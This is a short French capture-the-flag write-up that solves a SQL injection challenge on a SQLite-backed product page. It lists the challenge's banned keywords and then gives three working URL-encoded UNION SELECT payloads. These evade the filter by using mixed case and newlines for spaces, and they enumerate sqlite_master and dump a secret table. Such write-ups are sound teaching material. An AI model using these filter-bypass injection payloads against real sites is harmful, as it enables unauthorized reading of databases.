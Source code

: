 # Level 3

Auteur : [HappoSnake](https://github.com/pathibault/)

Briève description : 
<img src=../SQL_Challenge.png>

# Sources
- https://finctf.ettic.net/challenges#Level%201-23
- [fichier source](./source.php)

# Solution
Dans le fichier source, il y a les mots suivants qui sont interdit :
```
- union
- UNION
- select
- SELECT
- -
- /
- *
- #
- espace blanc (whitespace)
- =
```
Dans SQLite, il y a plusieurs possibilités pour un espace blanc.
```
0A, 0D, 0C, 09, 20
```
Le flag étant dans une autre table, nous devons lister les tables en ajoutant directement dans l'url
```
?product=%27%0AUnIon%0ASeLect%0A1%2C2%2Ctbl_name%0Afrom%0Asqlite_master%3B
```
<img src=./tables.png>

<br />
Maintenant, trouvons les colonnes de la table «super_secret_table_name».

```
product=%27%0AUnIon%0ASeLect%0A1%2C2%2Csql%0Afrom%0Asqlite_master%0Awhere%0Aname%0Alike%0A%27super_secret_table_name%27%3B
```
<img src=./colonnes.png>

<br />
Pour finir, affichons les informations de la table «super_secret_table_name».

```
product=%27%0AUnIon%0ASeLect%0Aid%2C0%2Cspecial_value%0Afrom%0Asuper_secret_table_name%3B
```
<img src=./flag.png>